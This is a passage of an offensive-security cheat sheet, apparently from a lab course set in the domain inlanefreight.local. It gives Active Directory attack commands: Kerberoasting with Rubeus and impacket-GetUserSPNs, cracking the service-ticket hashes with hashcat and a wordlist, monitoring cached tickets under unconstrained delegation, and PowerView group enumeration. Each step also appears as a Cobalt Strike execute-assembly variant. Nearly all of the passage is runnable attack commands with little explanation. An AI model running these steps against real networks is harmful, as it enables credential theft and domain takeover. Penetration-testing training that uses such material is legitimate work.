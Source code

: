 ***Note: Instead of /spn we can use /spns:listofspn.txt to try multiple SPNs*

#### ==COBALT STRIKE: =Performing the attack using Rubeus *with* /nopreauth==
```cobalt
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /nopreauth:amber.smith /domain:inlanefreight.local /spn:MSSQLSvc/SQL01:1433 /nowrap 
```

## Kerberoasting from Linux

#### Enumerating SPNs
```Shell
impacket-GetUserSPNs inlanefreight.local/htb-student
```

#### Request TGS ticket / Service Ticket (ST) for kerberoastable accounts identified in previous command
```Shell
impacket-GetUserSPNs inlanefreight.local/htb-student -request
```

#### Cracking the hashes associated with accounts
```cmd.exe
hashcat.exe -m 13100 C:\Tools\kerb.txt C:\Tools\rockyou.txt -O
```

## Unconstrained Delegation

#### Monitor Stored Tickets with Rubeus
```PowerShell
\Rubeus.exe monitor /interval:5 /nowrap
```

#### ==COBALT STRIKE: Monitor Stored Tickets with Rubeus==
```cobalt
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:5 /nowrap
```

#### Identify groups that the user belongs to
```PowerShell
Import-Module .\PowerView.ps1
```

```PowerShell
Get-DomainGroup -MemberIdentity sarah.lafferty
```
*In example, she's in the Domain Admins group*
#### ==COBALT STRIKE: Identify groups that the user belongs to==
```cobalt
powershell Get-DomainGroup -MemberIdentity sarah.lafferty
```
